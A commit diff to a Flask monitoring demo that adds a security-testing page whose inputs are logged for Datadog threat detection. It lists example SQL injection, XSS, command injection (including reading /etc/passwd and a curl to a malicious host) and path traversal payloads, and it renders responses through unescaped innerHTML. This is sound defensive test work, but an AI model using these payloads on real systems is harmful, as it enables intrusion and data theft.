
After one commit to BryantWang0824/flask-app, a Python web app: template templates/security_test.html in a window 1280 px wide. The commit adds this page. Shown: the whole page at 87% size. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
security parts added

```diff
--- a/templates/base.html
+++ b/templates/base.html
@@ -59,6 +59,9 @@
                     </li>
                     <li class="nav-item">
                         <a class="nav-link" href="/load-test"><i class="fas fa-tachometer-alt me-1"></i>Load Test</a>
+                    </li>
+                    <li class="nav-item">
+                        <a class="nav-link" href="/security-test"><i class="fas fa-shield-alt me-1"></i>Security Test</a>
                     </li>
                     <li class="nav-item">
                         <a class="nav-link" href="/api/stats"><i class="fas fa-chart-bar me-1"></i>Stats</a>
--- /dev/null
+++ b/templates/security_test.html
@@ -0,0 +1,334 @@
+{% extends "base.html" %}
+
+{% block title %}Security Testing - APM Demo{% endblock %}
+
+{% block content %}
+<div class="row">
+    <div class="col-12">
+        <div class="card mb-4">
+            <div class="card-header bg-warning text-dark">
+                <h5 class="card-title mb-0">
+                    <i class="fas fa-shield-alt me-2"></i>Security Input Testing Interface
+                </h5>
+            </div>
+            <div class="card-body">
+                <div class="alert alert-info">
+                    <i class="fas fa-info-circle me-2"></i>
+                    <strong>Purpose:</strong> This interface allows you to test various security inputs for demonstration purposes.
+                    All inputs are logged for Datadog security monitoring and threat detection analysis.
+                </div>
+                <div class="alert alert-warning">
+                    <i class="fas fa-exclamation-triangle me-2"></i>
+                    <strong>Note:</strong> This is a controlled testing environment. Inputs are logged but not processed maliciously.
+                </div>
+            </div>
+        </div>
+    </div>
+</div>
+
+<!-- Security Input Testing Forms -->
+<div class="row">
+    <div class="col-md-6">
+        <div class="card">
+            <div class="card-header">
+                <h6 class="card-title mb-0">
+                    <i class="fas fa-keyboard me-2"></i>Security Input Tester
+                </h6>
+            </div>
+            <div class="card-body">
+                <form id="securityTestForm">
+                    <div class="mb-3">
+                        <label for="inputType" class="form-label">Input Type</label>
+                        <select class="form-select" id="inputType" name="input_type" required>
+                            <option value="general">General Input</option>
+                            <option value="sql">SQL Injection Test</option>
+                            <option value="xss">XSS (Cross-Site Scripting) Test</option>
+                            <option value="command">Command Injection Test</option>
+                            <option value="path">Path Traversal Test</option>
+                            <option value="ldap">LDAP Injection Test</option>
+                            <option value="nosql">NoSQL Injection Test</option>
+                        </select>
+                        <div class="form-text">Select the type of security test you want to perform</div>
+                    </div>
+
+                    <div class="mb-3">
+                        <label for="userInput" class="form-label">Test Input</label>
+                        <textarea class="form-control" id="userInput" name="user_input" rows="4"
+                                  placeholder="Enter your test input here..." required></textarea>
+                        <div class="form-text">Enter the payload or input you want to test</div>
+                    </div>
+
+                    <div class="d-grid gap-2">
+                        <button type="submit" class="btn btn-warning" id="submitTest">
+                            <i class="fas fa-paper-plane me-2"></i>Submit for Security Analysis
+                        </button>
+                        <button type="button" class="btn btn-secondary" id="clearForm">
+                            <i class="fas fa-eraser me-2"></i>Clear Form
+                        </button>
+                    </div>
+                </form>
+            </div>
+        </div>
+
+        <!-- Quick Test Examples -->
+        <div class="card mt-4">
+            <div class="card-header">
+                <h6 class="card-title mb-0">
+                    <i class="fas fa-lightbulb me-2"></i>Example Test Payloads
+                </h6>
+            </div>
+            <div class="card-body">
+                <div class="accordion" id="examplesAccordion">
+                    <div class="accordion-item">
+                        <h2 class="accordion-header">
+                            <button class="accordion-button collapsed" type="button" data-bs-toggle="collapse" data-bs-target="#sqlExamples">
+                                SQL Injection Examples
+                            </button>
+                        </h2>
+                        <div id="sqlExamples" class="accordion-collapse collapse">
+                            <div class="accordion-body">
+                                <button class="btn btn-sm btn-outline-primary mb-2" onclick="setExample('sql', '\' OR 1=1--')">Basic SQL Bypass</button><br>
+                                <button class="btn btn-sm btn-outline-primary mb-2" onclick="setExample('sql', '\'; DROP TABLE users;--')">SQL Drop Table</button><br>
+                                <button class="btn btn-sm btn-outline-primary mb-2" onclick="setExample('sql', '\' UNION SELECT username, password FROM admin--')">SQL Union Attack</button>
+                            </div>
+                        </div>
+                    </div>
+
+                    <div class="accordion-item">
+                        <h2 class="accordion-header">
+                            <button class="accordion-button collapsed" type="button" data-bs-toggle="collapse" data-bs-target="#xssExamples">
+                                XSS Examples
+                            </button>
+                        </h2>
+                        <div id="xssExamples" class="accordion-collapse collapse">
+                            <div class="accordion-body">
+                                <button class="btn btn-sm btn-outline-danger mb-2" onclick="setExample('xss', '<script>alert(\"XSS\")</script>')">Basic XSS Alert</button><br>
+                                <button class="btn btn-sm btn-outline-danger mb-2" onclick="setExample('xss', '<img src=x onerror=alert(\"XSS\")>')">Image XSS</button><br>
+                                <button class="btn btn-sm btn-outline-danger mb-2" onclick="setExample('xss', 'javascript:alert(document.cookie)')">Cookie Theft</button>
+                            </div>
+                        </div>
+                    </div>
+
+                    <div class="accordion-item">
+                        <h2 class="accordion-header">
+                            <button class="accordion-button collapsed" type="button" data-bs-toggle="collapse" data-bs-target="#cmdExamples">
+                                Command Injection Examples
+                            </button>
+                        </h2>
+                        <div id="cmdExamples" class="accordion-collapse collapse">
+                            <div class="accordion-body">
+                                <button class="btn btn-sm btn-outline-warning mb-2" onclick="setExample('command', '; ls -la')">List Directory</button><br>
+                                <button class="btn btn-sm btn-outline-warning mb-2" onclick="setExample('command', '| cat /etc/passwd')">Read Passwd File</button><br>
+                                <button class="btn btn-sm btn-outline-warning mb-2" onclick="setExample('command', '&& curl malicious-site.com')">External Request</button>
+                            </div>
+                        </div>
+                    </div>
+
+                    <div class="accordion-item">
+                        <h2 class="accordion-header">
+                            <button class="accordion-button collapsed" type="button" data-bs-toggle="collapse" data-bs-target="#pathExamples">
+                                Path Traversal Examples
+                            </button>
+                        </h2>
+                        <div id="pathExamples" class="accordion-collapse collapse">
+                            <div class="accordion-body">
+                                <button class="btn btn-sm btn-outline-info mb-2" onclick="setExample('path', '../../../etc/passwd')">Unix Passwd</button><br>
+                                <button class="btn btn-sm btn-outline-info mb-2" onclick="setExample('path', '..\\..\\..\\windows\\system32\\config\\sam')">Windows SAM</button><br>
+                                <button class="btn btn-sm btn-outline-info mb-2" onclick="setExample('path', '....//....//etc/shadow')">Encoded Traversal</button>
+                            </div>
+                        </div>
+                    </div>
+                </div>
+            </div>
+        </div>
+    </div>
+
+    <div class="col-md-6">
+        <div class="card">
+            <div class="card-header">
+                <h6 class="card-title mb-0">
+                    <i class="fas fa-chart-line me-2"></i>Test Results & Response
+                </h6>
+            </div>
+            <div class="card-body">
+                <div id="testResults">
+                    <div class="text-center text-muted">
+                        <i class="fas fa-vial fa-2x mb-3"></i>
+                        <p>Submit a security test to see the response and logging information here.</p>
+                    </div>
+                </div>
+            </div>
+        </div>
+
+        <!-- Test Statistics -->
+        <div class="card mt-4">
+            <div class="card-header">
+                <h6 class="card-title mb-0">
+                    <i class="fas fa-chart-bar me-2"></i>Test Session Statistics
+                </h6>
+            </div>
+            <div class="card-body">
+                <div class="row text-center">
+                    <div class="col-6">
+                        <h4 class="text-primary" id="totalTests">0</h4>
+                        <small class="text-muted">Total Tests</small>
+                    </div>
+                    <div class="col-6">
+                        <h4 class="text-success" id="successfulTests">0</h4>
+                        <small class="text-muted">Logged Successfully</small>
+                    </div>
+                </div>
+                <hr>
+                <div class="row text-center">
+                    <div class="col-4">
+                        <h6 class="text-info" id="sqlTests">0</h6>
+                        <small class="text-muted">SQL</small>
+                    </div>
+                    <div class="col-4">
+                        <h6 class="text-warning" id="xssTests">0</h6>
+                        <small class="text-muted">XSS</small>
+                    </div>
+                    <div class="col-4">
+                        <h6 class="text-danger" id="cmdTests">0</h6>
+                        <small class="text-muted">Command</small>
+                    </div>
+                </div>
+            </div>
+        </div>
+    </div>
+</div>
+{% endblock %}
+
+{% block scripts %}
+<script>
+let testStats = {
+    total: 0,
+    successful: 0,
+    sql: 0,
+    xss: 0,
+    command: 0,
+    path: 0,
+    general: 0
+};
+
+function updateStats() {
+    document.getElementById('totalTests').textContent = testStats.total;
+    document.getElementById('successfulTests').textContent = testStats.successful;
+    document.getElementById('sqlTests').textContent = testStats.sql;
+    document.getElementById('xssTests').textContent = testStats.xss;
+    document.getElementById('cmdTests').textContent = testStats.command;
+}
+
+function setExample(type, payload) {
+    document.getElementById('inputType').value = type;
+    document.getElementById('userInput').value = payload;
+
+    // Highlight the form
+    const form = document.getElementById('securityTestForm');
+    form.classList.add('border', 'border-warning');
+    setTimeout(() => {
+        form.classList.remove('border', 'border-warning');
+    }, 2000);
+}
+
+// Form submission
+document.getElementById('securityTestForm').addEventListener('submit', async function(e) {
+    e.preventDefault();
+
+    const formData = new FormData(this);
+    const submitButton = document.getElementById('submitTest');
+    const originalText = submitButton.innerHTML;
+
+    // Update button state
+    submitButton.disabled = true;
+    submitButton.innerHTML = '<i class="fas fa-spinner fa-spin me-2"></i>Submitting...';
+
+    try {
+        const response = await fetch('/api/security-input', {
+            method: 'POST',
+            body: formData
+        });
+
+        const result = await response.json();
+
+        testStats.total++;
+        if (response.ok) {
+            testStats.successful++;
+            testStats[result.input_type] = (testStats[result.input_type] || 0) + 1;
+        }
+
+        updateStats();
+
+        // Display results
+        const resultsDiv = document.getElementById('testResults');
+        const statusClass = response.ok ? 'success' : 'danger';
+        const statusIcon = response.ok ? 'check-circle' : 'exclamation-circle';
+
+        resultsDiv.innerHTML = `
+            <div class="card">
+                <div class="card-header bg-${statusClass} text-white">
+                    <h6 class="mb-0">
+                        <i class="fas fa-${statusIcon} me-2"></i>Test Result
+                    </h6>
+                </div>
+                <div class="card-body">
+                    <div class="row">
+                        <div class="col-12">
+                            <h6>Response Details:</h6>
+                            <ul class="list-unstyled">
+                                <li><strong>Status:</strong> ${result.status || 'error'}</li>
+                                <li><strong>Message:</strong> ${result.message || result.error || 'Unknown error'}</li>
+                                <li><strong>Input Type:</strong> ${result.input_type || 'N/A'}</li>
+                                <li><strong>Input Length:</strong> ${result.input_length || 'N/A'} characters</li>
+                                <li><strong>Request ID:</strong> ${result.request_id || 'N/A'}</li>
+                                <li><strong>Timestamp:</strong> ${result.timestamp || 'N/A'}</li>
+                            </ul>
+                        </div>
+                    </div>
+                    <div class="alert alert-info mt-3">
+                        <i class="fas fa-info-circle me-2"></i>
+                        <strong>Datadog Monitoring:</strong> This input has been logged and is available for security analysis in your APM dashboard.
+                    </div>
+                </div>
+            </div>
+        `;
+
+        // Show success toast
+        showToast(`Security test logged successfully (ID: ${result.request_id})`, 'success');
+
+    } catch (error) {
+        testStats.total++;
+        updateStats();
+
+        document.getElementById('testResults').innerHTML = `
+            <div class="alert alert-danger">
+                <h6><i class="fas fa-exclamation-triangle me-2"></i>Test Failed</h6>
+                <p>Error submitting security test: ${error.message}</p>
+            </div>
+        `;
+
+        showToast(`Failed to submit security test: ${error.message}`, 'danger');
+    } finally {
+        // Reset button
+        submitButton.disabled = false;
+        submitButton.innerHTML = originalText;
+    }
+});
+
+// Clear form
+document.getElementById('clearForm').addEventListener('click', function() {
+    document.getElementById('securityTestForm').reset();
+    document.getElementById('testResults').innerHTML = `
+        <div class="text-center text-muted">
+            <i class="fas fa-vial fa-2x mb-3"></i>
+            <p>Submit a security test to see the response and logging information here.</p>
+        </div>
+    `;
+});
+
+// Initialize stats display
+document.addEventListener('DOMContentLoaded', function() {
+    updateStats();
+});
+</script>
+{% endblock %}
```
Also changed, not shown: app.py (+70 -0 lines), templates/index.html (+43 -0 lines).
